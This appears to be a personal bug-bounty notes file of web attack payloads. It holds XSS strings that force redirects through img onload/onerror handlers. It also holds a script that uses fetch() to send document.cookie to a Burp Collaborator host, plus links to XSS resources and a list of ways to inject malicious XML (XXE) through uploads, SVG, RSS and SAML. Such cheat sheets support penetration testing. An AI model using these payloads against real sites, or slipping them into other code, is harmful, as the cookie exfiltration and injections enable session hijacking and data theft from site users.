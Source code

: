 # My Notes - Payload

## XSS to Open Redirection Payload:
1. http://Test"><img src=x onload=window.location="http://google.com">
2. "><img src=x onerror=window.location="http://google.com">

## Exfiltrate cookie:
<script>fetch('https://anmol.burpcollaborator.net?'+document.cookie, {method: 'POST',mode: 'no-cors',body:document.cookie});alert('exfiltrated the document.cookie');</script>

## Multi XSS Exploit in Upload File
1. <a href="https://systemweakness.com/multi-xss-exploit-in-upload-file-2bfde6ce471a">Multi XSS Exploit in Upload File</a>

## Tiny XSS
1. <a href="https://tinyxss.terjanq.me/">Tiny XSS by @terjanq</a>

## Server-Side input validation testing
1. <a href=https://redtm.com/web-pentest/server-side-input-validation>Server-Side input validation testing</a>

## XXE Techniques [Observations]
1. Convert the content type from "application/json"/"application/x-www-form-urlencoded" to "application/xml".
2. File Uploads allows for docx/xlcs/pdf/zip , unzip the package and add your evil xml code into the xml files.
3. If svg allowed in picture upload , you can inject xml in svgs.
4. If the web app offers RSS feeds , add your malicious code into the RSS.
5. Fuzz for /soap api , some applications still running soap apis
6. If the target web app allows for SSO integration, you can inject your malicious xml code in the SAML request/response
